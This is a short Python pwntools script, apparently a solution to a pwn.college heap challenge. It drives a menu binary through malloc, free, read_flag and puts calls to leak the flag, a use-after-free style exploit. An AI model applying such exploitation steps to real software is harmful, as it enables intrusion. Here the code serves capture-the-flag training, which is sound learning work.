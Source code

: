 ```python
"""


def launch(local=True, debug=False, aslr=False, argv=None, envp=None):
    if local:
        elf = ELF(FILE)
        context.binary = elf

        if debug:
            return gdb.debug(
                [elf.path] + (argv or []), gdbscript=gdbscript, aslr=aslr, env=envp
            )
        else:
            return process([elf.path] + (argv or []), env=envp)
    else:
        return remote(HOST, PORT)


def construct_payload():
    return [
        (b"malloc", b"1337"),
        (b"free", None),
        (b"read_flag", None),
        (b"puts", None),
    ]


def attack(target, payload):
    try:
        for cmd, arg in payload:
            target.sendlineafter(b": ", cmd)

            if arg is not None:
                target.sendlineafter(b": ", arg)

        response = target.recvall(timeout=0.1)

        if b"pwn.college{" in response:
            return True
    except Exception as e:
        log.exception(f"An error occurred while performing attack: {e}")


def main():
    target = launch()
    payload = construct_payload()

    if attack(target, payload):
        exit()


if __name__ == "__main__":
    main()
```
